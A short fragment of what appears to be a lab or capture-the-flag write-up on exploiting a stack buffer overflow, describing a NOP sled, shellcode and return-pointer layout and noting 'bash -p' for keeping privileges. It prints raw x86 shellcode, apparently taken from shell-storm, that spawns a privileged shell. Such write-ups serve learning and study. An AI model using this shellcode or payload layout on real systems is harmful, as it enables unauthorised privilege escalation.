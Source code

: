 
again give payload and analyze `250wx`  , it was confusing there are some many `0x41414141`

<img src="img/Pasted image 20240719200158.png" alt="Example Image" width="450"/>

Let using default echo and actual hex values , because `A` is confuse us to analyze and change the payload structure, use `\x90` is Null actual nop value

```
# NOP CODE + SHELLCODE + POINTER
# NOP Size = 132 - sizeof(SHELLCODE) 
# Pointer Size = 4 and inital value was dummy 
```

Found a shellcode code which has of `-p` 
`bash -p`  -p  Turned on whenever the real and effective user ids do not match.
            Disables processing of the $ENV file and importing of shell
            functions.  Turning this option off causes the effective uid and
            gid to be set to the real uid and gid.

https://shell-storm.org/shellcode/files/shellcode-607.html
```
char shellcode[] = "\xeb\x11\x5e\x31\xc9\xb1\x21\x80"
		   "\x6c\x0e\xff\x01\x80\xe9\x01\x75"
  		   "\xf6\xeb\x05\xe8\xea\xff\xff\xff"
		   "\x6b\x0c\x59\x9a\x53\x67\x69\x2e"
		   "\x71\x8a\xe2\x53\x6b\x69\x69\x30"
		   "\x63\x62\x74\x69\x30\x63\x6a\x6f"
		   "\x8a\xe4\x53\x52\x54\x8a\xe2\xce"
		   "\x81";
```
